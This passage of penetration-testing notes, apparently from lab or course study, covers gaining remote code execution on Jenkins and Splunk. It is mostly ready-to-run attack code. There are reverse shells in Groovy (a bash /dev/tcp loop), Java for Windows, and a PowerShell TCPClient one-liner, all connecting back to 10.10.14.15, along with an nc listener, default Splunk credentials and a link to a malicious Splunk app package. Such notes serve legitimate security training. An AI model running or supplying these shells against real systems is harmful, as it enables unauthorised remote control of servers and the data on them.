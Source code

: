       ```groovy
      r = Runtime.getRuntime()
      p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
      p.waitFor()
      ```

      ```sh
      nc -nvlp 8443
      # we get reverse shell once we run the above script in script console

      # for a Windows-based Jenkins install, we can use the below script
      ```

      ```groovy
      String host="10.10.14.15";
      int port=8443;
      String cmd="cmd.exe";
      Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
      ```

  * leverage known vulnerabilities - check for vulnerabilities associated with Jenkins version

## Infrastructure & Network Monitoring Tools

* Splunk:

  * footprinting:

    * Splunk webserver runs on port 8000 by default; on older versions, default creds are 'admin:changeme', but we should also check for common weak passwords

    * the free version of Splunk does not require authentication - if we manage to log into Splunk, we can browse data, run reports, check dashboards, view apps, create scripts, etc.
  
  * abusing built-in functionality:

    * we can use [malicious Splunk packages](https://github.com/0xjpuff/reverse_shell_splunk) for RCE

    * the custom Splunk app directory should have 'bin' and 'default' folders - 'bin' includes a PS script, a BAT file and a Python script, while 'default' directory has 'inputs.conf' file

    * ```run.ps1```:

      ```ps
      # PS one-liner reverse-shell
      $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
      ```

